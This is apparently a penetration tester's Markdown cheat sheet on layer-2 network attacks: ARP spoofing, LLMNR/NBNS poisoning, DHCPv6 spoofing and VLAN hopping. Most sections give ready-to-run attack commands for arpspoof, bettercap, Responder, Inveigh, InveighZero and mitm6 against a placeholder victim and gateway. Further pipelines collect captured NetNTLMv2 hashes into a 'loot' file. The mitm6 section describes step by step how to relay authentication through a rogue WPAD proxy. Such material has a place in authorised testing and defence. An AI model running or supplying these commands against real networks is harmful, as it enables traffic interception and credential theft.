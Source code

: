 # OSI L2 Attacks




## ARP Spoofing

* [https://xakep.ru/2020/06/17/windows-mitm/](https://xakep.ru/2020/06/17/windows-mitm/)

Enable IP forwarding:

```
$ sudo sysctl -w net.ipv4.ip_forward=1
(sudo sh -c 'echo 1 > /proc/sys/net/ipv4/ip_forward')
(edit /etc/sysctl.conf "net.ipv4.ip_forward = 1" to make it permanent)
```



### arpspoof [dsniff]

* [https://github.com/tecknicaltom/dsniff](https://github.com/tecknicaltom/dsniff)

Install:

```
$ sudo apt install dsniff -y
```

Fire up the attack with Wireshark (filter `ip.src == VICTIM_10.0.0.5`) running:

```
$ sudo arpspoof -c both -t VICTIM_10.0.0.5 GATEWAY_10.0.0.1
```



### bettercap

* [https://github.com/bettercap/bettercap](https://github.com/bettercap/bettercap)
* [https://www.bettercap.org/modules/](https://www.bettercap.org/modules/)
* [https://linuxhint.com/install-bettercap-on-ubuntu-18-04-and-use-the-events-stream/](https://linuxhint.com/install-bettercap-on-ubuntu-18-04-and-use-the-events-stream/)
* [https://hackernoon.com/man-in-the-middle-attack-using-bettercap-framework-hd783wzy](https://hackernoon.com/man-in-the-middle-attack-using-bettercap-framework-hd783wzy)
* [https://www.cyberpunk.rs/bettercap-usage-examples-overview-custom-setup-caplets](https://www.cyberpunk.rs/bettercap-usage-examples-overview-custom-setup-caplets)

Deb dependencies (Ubuntu 18.04 LTS):

* [libpcap0.8_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap0.8_1.8.1-6ubuntu1_amd64.deb.html)
* [libpcap0.8-dev_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap0.8-dev_1.8.1-6ubuntu1_amd64.deb.html)
* [libpcap-dev_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap-dev_1.8.1-6ubuntu1_amd64.deb.html)
* [pkg-config_0.29.1-0ubuntu2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/pkg-config_0.29.1-0ubuntu2_amd64.deb.html)
* [libnetfilter-queue1_1.0.2-2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-universe-amd64/libnetfilter-queue1_1.0.2-2_amd64.deb.html)
* [libnfnetlink-dev_1.0.1-3_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libnfnetlink-dev_1.0.1-3_amd64.deb.html)
* [libnetfilter-queue-dev_1.0.2-2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-universe-amd64/libnetfilter-queue-dev_1.0.2-2_amd64.deb.html)




## LLMNR/NBNS Poisoning



### Responder

* [https://github.com/SpiderLabs/Responder](https://github.com/SpiderLabs/Responder)
* [https://github.com/lgandx/Responder](https://github.com/lgandx/Responder)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://markclayton.github.io/where-are-my-hashes-responder-observations.html](https://markclayton.github.io/where-are-my-hashes-responder-observations.html)

Install:

```
$ git clone https://github.com/lgandx/Responder ~/tools/Responder && cd ~/tools/Responder
```

Run:

```
$ sudo python Responder.py -I eth0 -Av
$ sudo python Responder.py -I eth0 -wfrd -P -v
```

Parse, sort and save:

```
 # Users
$ head -n1 logs/*.txt | grep -a . | grep -a -v -e 'logs/' -e '\$' -e anonymous | sort -u -t: -k1,1 > net-ntlmv2.responder
$ sort -u -t: -k1,1 net-ntlmv2.responder ~/ws/loot/net-ntlmv2.txt > t
$ mv t ~/ws/loot/net-ntlmv2.txt && rm net-ntlmv2.responder
 # Machines
$ head -n1 logs/*.txt | grep -a '\$' | sort -u -t: -k1,1
```



### Inveigh

* [https://github.com/Kevin-Robertson/Inveigh](https://github.com/Kevin-Robertson/Inveigh)

```
PS > Invoke-Inveigh [-IP '10.10.13.37'] -ConsoleOutput Y -FileOutput Y -NBNS Y -mDNS Y -Proxy Y -MachineAccounts Y
```



### InveighZero

* [https://github.com/Kevin-Robertson/InveighZero](https://github.com/Kevin-Robertson/InveighZero)
* [https://github.com/Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection)

```
PS > .\InveighZero.exe -FileOutput Y -NBNS Y -mDNS Y -Proxy Y -MachineAccounts Y -DHCPv6 Y -LLMNRv6 Y [-Elevated N]
```




## DHCPv6 Spoofing



### mitm6

* [https://github.com/fox-it/mitm6](https://github.com/fox-it/mitm6)
* [https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
* [https://intrinium.com/mitm6-pen-testing/](https://intrinium.com/mitm6-pen-testing/)

Install:

```
$ git clone https://github.com/fox-it/mitm6 ~/tools/mitm6 && cd ~/tools/mitm6
$ python3 setup.py install
Or
$ pipx install -f "git+https://github.com/fox-it/mitm6.git"
```

Run:

```
 # Just capture the hashes
$ sudo smbserver.py -smb2support share `pwd` | tee -a ~/ws/log/mitm6-smbserver.out
 # Perform the MitM attack
$ sudo mitm6 -i eth0 -d megacorp.local --ignore-nofqdn
```

Parse, sort and save:

```
 # Users:
$ cat ~/ws/log/mitm6-smbserver.out | grep 'authenticated successfully' -A1 | grep aaaaaaaaaaaaaaaa | cut -c 5- | grep -v '\$' > net-ntlmv2.mitm6
$ sort -u -t: -k1,1 net-ntlmv2.mitm6 ~/ws/loot/net-ntlmv2.txt > t
$ mv t ~/ws/loot/net-ntlmv2.txt && rm net-ntlmv2.mitm6
 # Machines
$ cat ~/ws/log/mitm6-smbserver.out | grep 'authenticated successfully' -A1 | grep aaaaaaaaaaaaaaaa | grep '\$' | cut -c 5- | sort -u -t: -k1,1
```


#### Attack vectors

Grab hashes with `smbserver.py` (passive):

1. `mitm6.py` poisons IPv6 DNS entries for all hosts in the `/24` network.
2. Victims start to use attacker's machine as the primary DNS server.
3. `mitm6.py` on the attacker's machine acts like a rogue DNS server and responds with the attacker's IP for all incoming queries.
4. `smbserver.py` collects hashes during SMB requests from victims.

Relay authentication with ntlmrelayx.py (active):

1. `mitm6.py` poisons IPv6 DNS entries for all hosts in the `/24` network.
2. Victims start to use attacker's machine as the primary DNS server.
3. `mitm6.py` on the attacker's machine acts like a rogue DNS server, `ntlmrelayx.py` serves a malicious WPAD file with an inexistent hostname (which will be resolved to the attacker's IP anyway) and acts like a rogue proxy server and `mitm6.py` responds with the attacker's IP for all the incoming DNS queries.
4. Victims grab the WPAD file and ask the rogue IPv6 DNS server (attacker's machine) to resolve its location - resolved to attacker's machine.
5. Victims go to the rogue proxy server and there `ntlmrelayx.py` responses with `HTTP 407 Proxy Authentication`.




## VLAN Hopping

* [https://en.wikipedia.org/wiki/VLAN_hopping](https://en.wikipedia.org/wiki/VLAN_hopping)



### Double VLAN Tagging

* [[PDF] VLAN Hopping Attack (Haboob Team)](https://www.exploit-db.com/docs/english/45050-vlan-hopping-attack.pdf)
* [https://notsosecure.com/exploiting-vlan-double-tagging/](https://notsosecure.com/exploiting-vlan-double-tagging/)
